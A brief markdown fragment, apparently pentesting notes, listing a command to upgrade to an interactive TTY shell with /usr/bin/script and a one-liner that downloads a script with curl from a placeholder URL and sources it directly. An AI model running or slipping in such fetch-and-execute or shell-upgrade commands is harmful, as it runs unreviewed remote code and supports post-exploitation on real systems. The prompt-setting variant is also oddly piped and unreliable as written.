 
- Spawn TTY shell: `/usr/bin/script -qc /bin/bash /dev/null` 
  - or with PWD: `/usr/bin/script -qc /bin/bash /dev/null | PS1='\u@\h:\w\$ '`

- Run script from URL: `source <(curl -s http://mywebsite.com/myscript.sh)`
